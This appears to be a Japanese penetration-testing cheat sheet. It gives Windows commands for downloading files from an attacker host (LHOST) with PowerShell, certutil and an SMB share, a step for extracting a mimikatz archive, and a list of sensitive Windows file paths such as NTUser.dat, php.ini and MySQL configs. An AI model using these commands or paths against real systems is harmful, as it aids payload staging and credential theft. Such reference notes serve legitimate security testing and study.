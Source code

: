   - ### Web
    - Download
      - powershell -command Invoke-WebRequest -Uri http://<LHOST>:<LPORT>/<FILE> -Outfile C:\\temp\\<FILE>
      - iwr -uri http://lhost/file -Outfile file
      - certutil -urlcache -split -f "http://<LHOST>/<FILE>" <FILE>
      - copy \\kali\share\file .
  - ### ファイル操作
    - 解凍
      - Expand-Archive -Path .\mimikatz.zip
  - PowerCLI






# Event Viewer
- Application
- Security
  - ユーザ追加（4720）
  - プロセス作成（4688）
- System
  - シャットダウン開始時刻 (ID 1074)


# その他
- 証明書のインポート
  - #［スタート］→［ファイル名を指定して実行］をクリックし、名前の枠に「certmgr.msc」と入力して［OK］をクリックします。 ...
証明書管理画面が表示されますので、[信頼されたルート証明機関]の証明書フォルダを右クリックして、「すべてのタスク」から「インポート」を選択します

# 重要ファイル一覧
- C:/Users/Administrator/NTUser.dat
- C:/Documents and Settings/Administrator/NTUser.dat
- C:/apache/logs/access.log
- C:/apache/logs/error.log
- C:/apache/php/php.ini
- C:/boot.ini
- C:/inetpub/wwwroot/global.asa
- C:/MySQL/data/hostname.err
- C:/MySQL/data/mysql.err
- C:/MySQL/data/mysql.log
- C:/MySQL/my.cnf
- C:/MySQL/my.ini
- C:/php4/php.ini
- C:/php5/php.ini
- C:/php/php.ini
- C:/Program Files/Apache Group/Apache2/conf/httpd.conf
- C:/Program Files/Apache Group/Apache/conf/httpd.conf
- C:/Program Files/Apache Group/Apache/logs/access.log
- C:/Program Files/Apache Group/Apache/logs/error.log
- C:/Program Files/FileZilla Server/FileZilla Server.xml
- C:/Program Files/MySQL/data/hostname.err
- C:/Program Files/MySQL/data/mysql-bin.log
- C:/Program Files/MySQL/data/mysql.err
- C:/Program Files/MySQL/data/mysql.log
- C:/Program Files/MySQL/my.ini
- C:/Program Files/MySQL/my.cnf
- C:/Program Files/MySQL/MySQL Server 5.0/data/hostname.err
- C:/Program Files/MySQL/MySQL Server 5.0/data/mysql-bin.log
- C:/Program Files/MySQL/MySQL Server 5.0/data/mysql.err
- C:/Program Files/MySQL/MySQL Server 5.0/data/mysql.log
- C:/Program Files/MySQL/MySQL Server 5.0/my.cnf